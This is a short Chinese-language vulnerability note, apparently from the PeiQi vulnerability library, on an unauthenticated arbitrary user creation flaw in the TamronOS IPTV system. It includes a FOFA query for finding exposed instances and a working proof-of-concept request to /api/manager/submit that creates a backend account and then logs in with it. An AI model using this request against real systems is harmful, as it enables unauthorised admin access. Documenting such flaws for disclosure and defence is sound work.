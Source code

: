```yaml
---
title: TamronOS IPTV系统 submit 任意用户创建漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - TamronOS
---
```


# TamronOS IPTV系统 submit 任意用户创建漏洞

## 漏洞描述

TamronOS IPTV系统 /api/manager/submit 存在任意用户创建漏洞，攻击者通过漏洞可以任意用户创建进入后台

## 漏洞影响

> [!NOTE]
>
> TamronOS IPTV系统

## FOFA

> [!NOTE]
>
> app="TamronOS-IPTV系统"

## 漏洞复现

登录页面如下

![image-20210615145308242](/img/20210924020242202847.png)

漏洞POC为

```
/api/manager/submit?group=1&username=test&password=123456
```

![image-20210615145547635](/img/20210924020242753360.png)

```
user: test
pass: 123456
```

![image-20210615145605871](/img/20210924020243033289.png)